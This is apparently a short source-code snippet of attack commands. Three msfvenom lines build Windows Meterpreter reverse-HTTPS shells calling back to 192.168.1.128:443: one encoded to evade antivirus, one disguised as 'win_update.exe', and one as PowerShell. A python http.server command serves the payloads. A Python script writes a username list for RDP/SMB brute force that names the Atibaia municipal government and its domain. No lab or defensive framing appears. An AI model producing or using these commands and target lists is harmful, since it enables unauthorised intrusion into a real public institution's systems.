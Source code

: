 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080
# Gerando um arquivo users.txt com nomes de usuários personalizados para brute force (RDP/SMB)
usuarios = [
    "Administrator",
    "administrator",
    "Admin",
    "admin",
    "usuario",
    "Usuario",
    "user",
    "User",
    "atibaia",
    "prefeitura",
    "atendimento",
    "servidor",
    "servidor01",
    "servidor02",
    "gestor",
    "gestor01",
    "sum",
    "suma",
    "suma57667",
    "suma57667.atibaia.gov.br"
]

with open("/mnt/data/users_atibaia.txt", "w") as f:
    for user in usuarios:
        f.write(user + "\n")

print("Arquivo 'users_atibaia.txt' criado com sucesso.")




